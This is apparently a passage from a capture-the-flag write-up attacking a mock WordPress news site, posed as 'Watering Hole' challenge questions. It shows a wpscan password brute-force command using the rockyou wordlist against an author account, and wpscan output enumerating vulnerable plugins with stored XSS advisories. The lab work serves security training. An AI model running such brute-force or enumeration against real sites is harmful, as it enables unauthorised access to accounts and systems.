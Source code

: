 `wpscan --url http://www.nkcna.ctf/ -U nkcna_author --passwords /usr/share/wordlists/rockyou.txt --disable-tls-checks`


===Watering Hole 6===

What is the English title of the most recent draft post?

Missile Launch Great Success for Our Glorious Leader

===Watering Hole 7===

What is the name of the Metasploit module that will gain remote code execution?

<pre>
% wpscan --url http://www.nkcna.ctf/ -e vp --plugins-detection aggressive --api-token cuFIUjchD
...

[+] Enumerating Vulnerable Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:02:40 <============================================================================================================> (2315 / 2315) 100.00% Time: 00:02:40
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] all-in-one-seo-pack
 | Location: http://www.nkcna.ctf/wp-content/plugins/all-in-one-seo-pack/
 | Last Updated: 2020-07-15T13:05:00.000Z
 | Readme: http://www.nkcna.ctf/wp-content/plugins/all-in-one-seo-pack/readme.txt
 | [!] The version is out of date, the latest version is 3.6.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://www.nkcna.ctf/wp-content/plugins/all-in-one-seo-pack/, status: 200
 |
 | [!] 5 vulnerabilities identified:
 |
 | [!] Title: All in One SEO Pack <= 2.3.6.1 - Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 2.3.7
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/8538
 |      - https://seclists.org/fulldisclosure/2016/Jul/23
 |      - https://web.archive.org/web/20160508074631/http://semperfiwebdesign.com/blog/all-in-one-seo-pack/all-in-one-seo-pack-release-history/
 |      - https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_in_all_in_one_seo_pack_wordpress_plugin.html
 |      - https://wptavern.com/all-in-one-seo-2-3-7-patches-persistent-xss-vulnerability
 |      - https://www.wordfence.com/blog/2016/07/xss-vulnerability-all-in-one-seo-pack-plugin/
 |
 | [!] Title: All in One SEO Pack <= 2.3.7 -  Unauthenticated Stored Cross-Site Scripting (XSS)
 |     Fixed in: 2.3.8
 |     References:
 |      - https://wpvulndb.com/vulnerabilities/8558